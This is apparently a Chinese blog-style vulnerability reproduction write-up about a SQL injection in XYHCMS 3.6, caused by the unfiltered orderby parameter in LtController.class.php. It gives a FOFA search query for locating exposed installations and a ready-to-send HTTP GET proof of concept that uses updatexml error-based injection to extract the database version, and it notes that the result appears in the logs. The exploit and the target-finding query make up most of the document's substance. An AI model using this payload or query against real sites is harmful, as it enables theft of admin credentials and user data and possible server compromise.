 
# 行云海 CMS SQL 注入漏洞复现

### 0x01 产品简介

 行云海 cms 是完全开源的一套 CMS[内容管理系统](https://so.csdn.net/so/search?q=%E5%86%85%E5%AE%B9%E7%AE%A1%E7%90%86%E7%B3%BB%E7%BB%9F&spm=1001.2101.3001.7020),简洁，易用，安全，稳定，免费。

### 0x02 漏洞概述

 行云海 cms 中 ThinkPHP 在处理 order by 排序时可利用 key 构造[SQL 语句](https://so.csdn.net/so/search?q=SQL%E8%AF%AD%E5%8F%A5&spm=1001.2101.3001.7020)进行注入，LtController.class.php 中发现传入了 orderby 未进行过滤导致 sql 注入。攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

### 0x03 影响范围

 xyhcms 3.6 版本

### 0x04 复现环境

FOFA：app="XYHCMS"

![1f3ae77b60a24fd9926f11210ff9da08.png](assets/1701755900-d7deb418688c5204edbc1e9994cbde2f.png)

### 0x05 漏洞复现

PoC

```http
GET /index.php/Api/Lt/alist?orderby[updatexml(1,concat(0x3a,(select%20version()),0x3a),1);]=1 HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip
```

PS：PoC 中报错[注入](https://so.csdn.net/so/search?q=%E6%B3%A8%E5%85%A5&spm=1001.2101.3001.7020)的结果不会直接回显，但会写到日志里面，访问日志即可查看
